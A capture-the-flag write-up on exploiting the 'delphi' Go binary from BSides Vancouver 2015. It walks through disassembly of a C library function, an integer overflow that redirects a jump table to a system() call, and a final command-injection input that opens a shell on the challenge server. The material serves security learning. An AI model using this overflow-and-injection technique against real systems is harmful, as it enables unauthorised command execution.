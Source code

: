 ### Solved by barrebas, Swappage

This 200 points challenge revolved around a binary written in *go*, for me and Bas this was our first attempt to exploit a Go binary, and was a resulted being a lot of fun :)

Binaries written in this language are generally safe from commonly exploited
vulnerabilities like buffer overflows, but in this case, the binary, was dynamically
linking an external library, which immediately pulled our attention.

    #file delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b
    delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=0x936b88708739382f1d376e89a4b82a4248d19b08, not stripped

    # ldd delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b
        linux-vdso.so.1 =>  (0x00007fff24e24000)
        libtwenty.so => /usr/local/lib/libtwenty.so (0x00007fb0ddd7c000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fb0ddb60000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb0dd7d4000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fb0ddf9a000)

The program, upon execution would present us a simple prompt accepting input as follows

    # ./delphi-07a5c9d07a4c20ae81a2ddc66b9602d0dcceb74b
    Welcome!

    Are you ready to play 20 questions? No? Perfect!
    I'm thinking of something big, metal, and orange. Go!
    >

 and reply with a random output from a set of predefined strings if the input wasn't formatted as it would expect.

 By simply fuzzing around, we managed to figure out that by entering the string *go* as a reply would trigger the program to reply as follows

     > go
    Sneaky, sneaky. Go where? How fast?
    >

which suggested that it was expecting a set of three arguments.
By luck, and later on confirming in the debugger, we noticed that sending a string like

    >go home <something>

would cause the program to reach the program branch where the *check_answer()* function is called, and where the actual vulnerability resides.

But let's take a step back: in the function *main.doTheMagic()* (what a cool name, it really sounded like something nasty was happening here :) ) righe before the call to *check_answer()* the third argument is converted to an integer via a call to *strconv.Atoi()*

```
0x401da6 <main.doTheMagic+374>: call   0x44d0b0 <strconv.Atoi>
0x401dab <main.doTheMagic+379>: mov    rbx,QWORD PTR [rsp+0x10]
0x401db0 <main.doTheMagic+384>: mov    ebx,ebx
0x401db2 <main.doTheMagic+386>: mov    DWORD PTR [rsp],ebx
0x401db5 <main.doTheMagic+389>: mov    rbx,QWORD PTR [rsp+0x40]
0x401dba <main.doTheMagic+394>: mov    QWORD PTR [rsp+0x8],rbx
0x401dbf <main.doTheMagic+399>: call   0x402230 <main._Cfunc_check_answer>
```
which suggested that the third argument should be a number, and that something nasty was going to happen from there soon in the unsafe function from the external C library.

*libtwenty.so*, as said earlier, is the library that contains the *check_answer()* function, and here is how it looks, both in block diagram and disassembled code.

![](/images/2015/bsides_vancouver/delphi/check_answer_diagram.png)

```
Dump of assembler code for function check_answer:
   0x00007ffff7bdb758 <+0>: push   rbp
   0x00007ffff7bdb759 <+1>: mov    rbp,rsp
   0x00007ffff7bdb75c <+4>: sub    rsp,0xa0
   0x00007ffff7bdb763 <+11>:    mov    DWORD PTR [rbp-0x94],edi
   0x00007ffff7bdb769 <+17>:    mov    QWORD PTR [rbp-0xa0],rsi
   0x00007ffff7bdb770 <+24>:    mov    WORD PTR [rbp-0x2],0x2a
   0x00007ffff7bdb776 <+30>:    lea    rax,[rbp-0x90]
   0x00007ffff7bdb77d <+37>:    mov    DWORD PTR [rax],0x6f686365
   0x00007ffff7bdb783 <+43>:    mov    WORD PTR [rax+0x4],0x20
   0x00007ffff7bdb789 <+49>:    mov    eax,DWORD PTR [rbp-0x94]
   0x00007ffff7bdb78f <+55>:    add    WORD PTR [rbp-0x2],ax
   0x00007ffff7bdb793 <+59>:    movzx  eax,WORD PTR [rbp-0x2]
   0x00007ffff7bdb797 <+63>:    cmp    eax,0x4
   0x00007ffff7bdb79a <+66>:    ja     0x7ffff7bdb7ed <check_answer+149>
   0x00007ffff7bdb79c <+68>:    mov    eax,eax
   0x00007ffff7bdb79e <+70>:    lea    rdx,[rax*4+0x0]
   0x00007ffff7bdb7a6 <+78>:    lea    rax,[rip+0xff]        # 0x7ffff7bdb8ac
   0x00007ffff7bdb7ad <+85>:    mov    eax,DWORD PTR [rdx+rax*1]
   0x00007ffff7bdb7b0 <+88>:    movsxd rdx,eax
   0x00007ffff7bdb7b3 <+91>:    lea    rax,[rip+0xf2]        # 0x7ffff7bdb8ac
   0x00007ffff7bdb7ba <+98>:    add    rax,rdx
   0x00007ffff7bdb7bd <+101>:   jmp    rax
   0x00007ffff7bdb7bf <+103>:   mov    rax,QWORD PTR [rbp-0xa0]
   0x00007ffff7bdb7c6 <+110>:   lea    rdx,[rbp-0x90]
   0x00007ffff7bdb7cd <+117>:   add    rdx,0x5
   0x00007ffff7bdb7d1 <+121>:   mov    rsi,rax
   0x00007ffff7bdb7d4 <+124>:   mov    rdi,rdx
   0x00007ffff7bdb7d7 <+127>:   call   0x7ffff7bdb650 <strcat@plt>
   0x00007ffff7bdb7dc <+132>:   lea    rax,[rbp-0x90]
   0x00007ffff7bdb7e3 <+139>:   mov    rdi,rax
   0x00007ffff7bdb7e6 <+142>:   call   0x7ffff7bdb630 <system@plt>
   0x00007ffff7bdb7eb <+147>:   jmp    0x7ffff7bdb808 <check_answer+176>
   0x00007ffff7bdb7ed <+149>:   lea    rdi,[rip+0x24]        # 0x7ffff7bdb818
   0x00007ffff7bdb7f4 <+156>:   call   0x7ffff7bdb620 <puts@plt>
   0x00007ffff7bdb7f9 <+161>:   lea    rdi,[rip+0x58]        # 0x7ffff7bdb858
   0x00007ffff7bdb800 <+168>:   call   0x7ffff7bdb620 <puts@plt>
   0x00007ffff7bdb805 <+173>:   jmp    0x7ffff7bdb808 <check_answer+176>
   0x00007ffff7bdb807 <+175>:   nop
   0x00007ffff7bdb808 <+176>:   leave  
   0x00007ffff7bdb809 <+177>:   ret
End of assembler dump.
```
There are two extremely interesting things here:

 - at 0x00007ffff7bdb79a, if ras = 4, then we reach a branch of code that ends with a jmp rax at 0x00007ffff7bdb7bd
 - by controlling the value in rax when the jump is taken, we can reach another extremely juicy branch of code that executes a call to *strcat()* as well as *system()*

 This means that if we can force the application to not take the jump at 0x00007ffff7bdb79a, we can execute arbitrary code and hopefully spawn a shell.

But where is the vulnerability?

At 0x00007ffff7bdb763 our arguments are moved on the stack, with also a 0x2a moved at [rbp -0x2]

```
0x00007ffff7bdb763 <+11>:   mov    DWORD PTR [rbp-0x94],edi
0x00007ffff7bdb769 <+17>:   mov    QWORD PTR [rbp-0xa0],rsi
0x00007ffff7bdb770 <+24>:   mov    WORD PTR [rbp-0x2],0x2a
```
and then this calculation is done

```
0x00007ffff7bdb789 <+49>:   mov    eax,DWORD PTR [rbp-0x94]
0x00007ffff7bdb78f <+55>:   add    WORD PTR [rbp-0x2],ax
0x00007ffff7bdb793 <+59>:   movzx  eax,WORD PTR [rbp-0x2]
```

So basically what happens is that

 - our third argument is cast to an int (from earlier) and moved to the stack
 - later on that value is moved into eax
 - 0x2a is then added to eax

This results in our ability to control RAX, and since our third argument is cast to an int, in the previous function, we can trigger an integer overflow, force the value to start counting from 0, and have 0 <= RAX <= 4.

To do that we pick the highest possible int value and calculate the following

    0xffffffff - 0x2a + 0x4 = 0xffffffd9 = 4294967257

and as expected the jump is not taken, leading us to the branch of code that will result in arbitrary code execution via system().

![](/images/2015/bsides_vancouver/delphi/gdb.png)

By forcing the value of RAX to be 4, when the following instruction is executed

    0x00007ffff7bdb7bd <+101>:  jmp    rax

 rax is equal to 0x7ffff7bdb7bf
 which is the area of code where *strcat()* and then *system()* are called.

 on *system()* execution, RAX points to "echo home"

    RAX: 0x7fffffffe220 ("echo home")

and since home was the second argument we submitted to the program in the beginning, we can quite confidentially assume that we can lavarage this to command ijection.

We decided to try this directly on the remote server in the perfect "i feel lucky" style

    # nc delphi.termsec.net 5000
    Welcome!

    Are you ready to play 20 questions? No? Perfect!
    I'm thinking of something big, metal, and orange. Go!
    > go home;/bin/sh 4294967258
    home
    cat flag.txt
    flag{I_l3t_my_tape_r0ck_til_my_t4pe_popped}

and appearently it worked :)

